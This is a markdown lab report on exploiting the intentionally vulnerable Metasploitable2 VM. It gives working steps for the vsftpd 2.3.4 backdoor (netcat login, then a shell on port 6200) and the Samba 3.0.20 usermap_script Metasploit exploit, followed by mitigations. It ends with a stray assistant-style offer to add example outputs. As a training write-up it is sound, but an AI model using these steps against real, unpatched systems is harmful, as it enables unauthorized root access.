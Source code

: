 # Lab Report: Metasploitable2 - vsftpd & Samba Exploitation

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)
- [Screenshots](#screenshots)

---

## Objective
The purpose of this lab is to practice penetration testing techniques by exploiting known vulnerabilities in the Metasploitable2 virtual machine, specifically targeting vsftpd 2.3.4 and Samba 3.0.20 services.

---

## Lab Setup
- **Target:** Metasploitable2 VM
- **Attacker:** Kali Linux VM
- **Network:** NAT setup ensuring connectivity between attacker and target
- **Tools Used:** Nmap, Metasploit Framework, Netcat, smbclient

---

## Reconnaissance
open source intelligence (osint) via Google.com

Metasploitable 2

A test environment provides a secure place to perform penetration testing and security research. For your test environment, you need a Metasploit instance that can access a vulnerable target. The following sections describe the requirements and instructions for setting up a vulnerable target. Downloading and Setting Up Metasploitable 2 The easiest way to get a target machine is to use Metasploitable 2, which is an intentionally vulnerable Ubuntu Linux virtual machine that is designed for testing common vulnerabilities. This virtual machine (VM) is compatible with VMWare, VirtualBox, and other common virtualization platforms.

Metasploitable 2 is available at:

    https://information.rapid7.com/metasploitable-download.html 

https://sourceforge.net/projects/metasploitable/ 

### Nmap Scan
Performed a comprehensive port scan to identify open services:

```bash
nmap -sV -p 21,139,445 <target-ip>
````
![Nmap Scan](screenshots/nmap_version_port_scan.png)

**Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

---

## Exploitation

### vsftpd 2.3.4 Backdoor Exploit

1. **Description:** vsftpd 2.3.4 contains a malicious backdoor (CVE-2011-2523) that opens a command shell on port 6200 when any username and password is used.

2. **Steps:** 
   To attack the ftp vulnerability, I used netcat.
   
```bash
nc <target-ip> 21
```

* When prompted for username, I entered `exploitingYou:)`
* When prompted for password, I entered `youvebeenhacked`

![vsftpd Backdoor Shell](https://github.com/engraham/Eric-Portfolio-/blob/fa77757b69c17942f5b6ac69fa3ea0955e164f4c/Pentest-Labs/screenshots/nc_user_pass_exploit.png)

* After login, connect to port 6200 to get a shell:
  
```bash
nc -v <target-ip> 6200
```
* NOTE: I used -v here for a more verbose output.
  
3. **Result:** Obtained a root shell on the target system. "whoami", "id", and "ls" command were ran to show root access and files.

![vsftpd Backdoor Shell](https://github.com/engraham/Eric-Portfolio-/blob/0c13deda10d5ea5146ad7055da298159402aafca/Pentest-Labs/screenshots/nc_root_access.png)

---

### Samba 3.0.20 Exploit (username map script)

1. **Description:** Samba 3.0.20 contains a remote code execution vulnerability.

2. **Using Metasploit:**
   
* Metaploit Commands used:
```bash
>msfconsole
>use auxiliary/scanner/smb/smb
>use 11 
>show options
>set RHOSTS <target_ip>
>run
	(shows Samba 3.0.20-Debian)
>searchsploit samba 3.0.20
	 (shows 'Username map script' Command Execution)
>grep samba search username map
>use 3
>show options
>set RHOSTS <target_ip>
>exploit
>whoami
>ls
```
* Start Metaploit
![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/b570e5ba232e22ab15fc6f7dff531a7cdd4212a1/Pentest-Labs/screenshots/msf_scanner.png)

3. Find an auxiliary scanner to find the Samba SMB _version_ and set the RHOSTS to <target_ip>. Running the scan shows "Samba 3.0.20-Debian"

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/df12a31297b9d23b36adfedc573c06e31cf5f633/Pentest-Labs/screenshots/msf_smb_version.png)

4. In a new CMD, usging 'searchsploit' search for "samba 3.0.20" (I chose "'Username' map script' Command Execution" exploit).

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/c1fdf8dc6495a39cf7f56d3a0ed266c3384fa518/Pentest-Labs/screenshots/searchsploit_samba_version.png)

5. From the auxiliary(scanner/smb/smb_verion) enter "grep samba search username map". This shows "exploit/multi/samba/usermap_script" with an exploit rating of "excellent".

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/72c9435708222e837350735acab4f088eebe68bd/Pentest-Labs/screenshots/msf_grep_samba.png)

6. Select "exploit/multi/samba/usermap_script" and show options and set RHOSTS to <target_ip>. Then run the exploit.

![image_alt](https://github.com/engraham/Eric-Portfolio-/blob/d825186953b676c36bf3f8bef4227dc8b80b48a4/Pentest-Labs/screenshots/msf_usermap_script_root.png)

7. **Result:** Obtained root privileges via a shell.


---

## Post-Exploitation

* Enumerated user accounts
* Checked system information
* Demonstrated ability to upload and execute files
* Captured proof of root access

---

## Mitigations & Recommendations

* Upgrade vsftpd to a non-vulnerable version
* Patch Samba to the latest stable release
* Disable unused services
* Implement firewall rules to restrict access

---

## References

* [Metasploitable2 Official Documentation](https://sourceforge.net/projects/metasploitable/)
* [CVE-2011-2523 - vsftpd 2.3.4 Backdoor](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

## Screenshots

![Nmap Scan](screenshots/nmap_scan.png)
*Figure 1: Nmap scan results*

![vsftpd Backdoor Shell](screenshots/vsftpd_shell.png)
*Figure 2: vsftpd backdoor shell*

![Meterpreter Session](screenshots/meterpreter_session.png)
*Figure 3: Samba exploit Meterpreter session*

---

*End of Report*

```

---

Would you like me to help generate specific sections with real example outputs or help you embed screenshots?
```
